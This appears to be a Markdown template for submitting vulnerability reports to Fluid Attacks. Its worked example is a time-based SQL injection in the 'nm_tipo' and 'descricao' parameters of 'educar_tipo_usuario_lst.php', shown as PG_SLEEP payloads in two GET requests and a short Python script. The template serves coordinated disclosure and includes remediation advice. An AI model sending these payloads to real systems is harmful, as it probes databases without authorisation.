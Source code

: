 # Vulnerability Report Template – Fluid Attacks

## 1. Preliminary Information

**Confirmation of Filters:**
- [ ] The software is open-source OR has a demo/free version
- [ ] The software is not in any bug bounty program
- [ ] The software was not created solely for academic purposes
- [ ] The software is not under the scope of any other CNA (checked vendor’s security.md)
- [ ] The software is used in Western countries
- [ ] The software has at least 1,000 stars on GitHub (recommended)
- [ ] The software runs on one or more of the following: Linux, Windows, macOS, Android, iOS

---

**Source Code Link (GitHub/GitLab):** `<link>`  
**Vulnerable Version(s):** `<version or commit hash>`  
**CVSS v4.0 Score & Vector:** `<score> – <vector string>`  
**Vendor Website:** `<link>`  
**Advisory Name (no spaces, artist/band names allowed):** `<name>`  
**Wikipedia or Last.fm Link of the Artist/Band:** `<link>`  
**Discovery Date:** `<YYYY-MM-DD>`  
**CWE ID:** `<CWE-###>`  
**CAPEC ID:** `<CAPEC-###>`  
**Previous Communication with Vendor:** `<Yes/No>` – If yes, provide details.  
**Fluid Attacks Criteria Category:** `<link or category>`  
**Vendor Contact (email):** `<email>`  
**Setup Instructions (How to install and run locally):** `<step-by-step instructions>`  
**Vendor Security Policy Link:** `<link>`  

---

## 2. Description

**Title:** `<Software Name> <Version> – <Vulnerability Type>`

**Description:**  
Provide a brief summary including software name, affected version(s), vulnerability type, and potential impact.  
Example:  
> In `<Software Name>` version `<x.x.x>`, an unauthenticated SQL Injection vulnerability was discovered in the `nm_tipo` and `descricao` parameters of the `educar_tipo_usuario_lst.php` endpoint. Exploiting this flaw allows an attacker to execute arbitrary SQL queries, potentially leading to data exfiltration and full database compromise.

---

## 3. Vulnerability Details

**Vulnerability Type:** `<SQL Injection / XSS / RCE / etc.>`  
**Affected Component/Endpoint:** `<path or module>`  
**Technical Details:**  
Explain how the vulnerability works, referencing relevant code locations if possible.  
Example:  
> The parameters `nm_tipo` and `descricao` are concatenated directly into SQL queries without sanitization, enabling attackers to inject arbitrary SQL commands.

---

## 4. Proof of Concept (PoC)

**HTTP Request Example:**
```
GET /educar_tipo_usuario_lst.php?nm_tipo=1 AND 8767=(SELECT 8767 FROM PG_SLEEP(10))-- HTTP/1.1
Host: vulnerable-site.com
```

**Alternate Parameter Exploitation:**
```
GET /educar_tipo_usuario_lst.php?descricao=1 AND 8767=(SELECT 8767 FROM PG_SLEEP(10))-- HTTP/1.1
Host: vulnerable-site.com
```

**Expected Result:** Normal server response  
**Observed Result:** Delayed response (~10 seconds), confirming time-based injection.

---

## 5. Exploit Code (if applicable)
```python
import requests

url = "https://vulnerable-site.com/educar_tipo_usuario_lst.php"
payload = {"nm_tipo": "1 AND 8767=(SELECT 8767 FROM PG_SLEEP(10))--"}
r = requests.get(url, params=payload)
print(f"Response time: {r.elapsed.total_seconds()} seconds")
```

---

## 6. Evidence of Exploitation

Attach:
- Screenshots of the delayed response
- Screenshot of code location (if public in repo)
- Video recording of PoC execution

---

## 7. Impact

Explain what an attacker could achieve:  
- Unauthorized database access  
- Data exfiltration  
- Data modification or deletion  
- Privilege escalation  

---

## 8. Recommendations

- Implement prepared statements / parameterized queries  
- Validate and sanitize all user inputs  
- Enable database error suppression for production  
- Apply a WAF rule for SQL Injection detection  

---

## 9. Researcher Information

**Name:** `Natan Maia Morette`  
**Email:** `<email>`  

**Attachments:** Include all images and videos in the submission email.
